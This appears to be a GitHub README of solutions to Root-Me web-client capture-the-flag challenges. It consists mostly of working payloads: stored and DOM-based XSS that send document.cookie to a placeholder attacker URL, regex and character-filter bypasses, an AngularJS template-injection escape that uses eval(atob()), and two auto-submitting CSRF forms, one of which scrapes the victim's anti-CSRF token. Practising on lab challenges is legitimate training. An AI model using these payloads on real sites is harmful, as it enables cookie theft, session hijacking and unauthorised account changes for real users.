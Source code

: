 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>window.location.href="URL?c="+document.cookie</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>window.location.href="URL?c="+document.cookie</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; window.location.href="URL?c="+document.cookie//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; window.location.href="URL?c="+document.cookie//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``

### XSS DOM Based - Filters Bypass
This web filters `;` or `+`. So we use `concat` instead.

It also filters `https` to check redirect. 

``'.concat(eval('document.location=`//URL?c=${document.cookie}`'))//``

### XSS DOM Based - AngularJS
Create base64 of redirect command:

`btoa("window.location.href='URL?c='+document.cookie")`

Submit the following URL in `contact` page

``RootMeURL/?name={{constructor.constructor("eval(atob(`<base64>`))")()}} ``

### CSRF Token Bypass
Sample payload for bypassing CSRF Token:

```
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
                <input id="username" type="text" name="username" value="1337">
                <input id="status" type="checkbox" name="status" checked >
                <input id="token" type="hidden" name="token" value="" />
                <button type="submit">Submit</button>
</form>
<script>

                xhttp = new XMLHttpRequest();
                xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
                xhttp.send();

                // extraction du token
                token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));

                // insertion du token dans notre formulaire
                 document.getElementById('token').setAttribute('value', token_admin)

                // envoi du formulaire
                document.csrf_form.submit();
</script>
```

### CSRF - 0 protection

```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="ad" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```
